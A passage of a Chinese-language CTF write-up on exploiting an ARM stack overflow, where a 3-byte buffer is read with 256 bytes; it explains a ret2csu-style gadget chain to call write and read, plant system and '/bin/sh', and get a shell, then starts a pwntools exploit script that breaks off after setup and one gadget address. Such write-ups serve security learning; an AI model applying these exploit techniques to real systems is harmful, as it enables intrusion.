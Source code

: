 简单的栈溢出，这里buf开辟了3字节的缓冲区，但是read()读取的时候写入256字节的内容

这里顺便说一下为什么栈溢出这么多字节，是因为我们在arm架构中的gadget中是没有x86架构那种的pop,ret的，所以需要用类似x86架构下的ret2csu打法多次调用寄存器

我理解的泄露ret2csu的思路

[![](assets/1701612270-9393f3e93b9bc25f314c773cb2f244f0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723200307-e31725c6-2950-1.png)

通过不断调用这一段gadget，从而调用真正的write,read，从而写入我们的system，以及binsh字符串，从而getshell

[![](assets/1701612270-61b9b16dfa72dc8de001ec97317e98aa.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723200313-e6ae6a00-2950-1.png)

exp:

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

p = process(["qemu-arm","-g", "1234","-L", "/usr/arm-linux-gnueabi/", "./pwn"])
p = process(['qemu-arm','-L','/usr/arm-linux-gnueabi/','./pwn'])
context.log_level='debug'
context.arch='arm'

elf = ELF('./pwn')
libc=ELF('/usr/arm-linux-gnueabi/lib/libc.so.6')

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

"""
0x000104e0 : mov r2, sb ; mov r1, r8 ; mov r0, r7 ; ldr r3, [r5], #4 ; add r4, r4, #1 ; blx r3
```